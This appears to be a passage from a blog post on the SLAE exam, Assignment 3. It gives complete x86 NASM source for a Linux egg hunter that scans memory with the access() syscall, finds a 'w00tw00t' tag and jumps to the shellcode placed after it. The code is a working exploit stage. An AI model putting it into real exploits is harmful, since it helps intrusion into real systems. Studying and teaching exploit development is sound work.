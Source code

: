 ```
  Else
    x = x + 0x1000
  End If
End While
```


## First Approach

We now have all of the information needed to take a first stab at implementing our egg hunter. Let's see what it looks like...


**_assignment3.nasm_**

```
; Filename: assignment3.nasm
; Author:  Adam Brown
; Website:  http://coffeegist.com
;
;
; Purpose: Create Egg Hunting Shellcode for SLAE Exam, Assignment 3

global _start

section .text
_start:

  ; zero out
  xor ecx, ecx
  mul ecx

; VAS organized by "pages"
; PAGE_SIZE = 4096 (0x1000)
NEXT_REGION: ; prepare to align page
  or dx, 0xfff ; next instruction inc edx will move edx to new page

NEXT_ADDRESS: ; increment memory address to look at
  inc edx

; ACCESS check
; int access(const char *pathname, int mode);
; syscall # 33 (0x21)
;
; Argument Values
; *pathname - address we are checking (edx)
; mode - mode we are checking for F_OK=0 (ecx)

  lea ebx, [edx+0x4]
  xor eax, eax
  mov al, 0x21
  int 0x80

  ; check results
  cmp al, 0xf2 ; EFAULT = 14 -> 0xe -> 2's complement -> 0xf2
  jz short NEXT_REGION ; In a bad region, move to next page

  cmp dword [edx], 0x74303077 ; w00t
  jnz short NEXT_ADDRESS

  cmp dword [edx+4], 0x74303077 ; second w00t
  jnz short NEXT_ADDRESS

  add edx, 0x8 ; Move past the w00tw00t
  jmp edx
```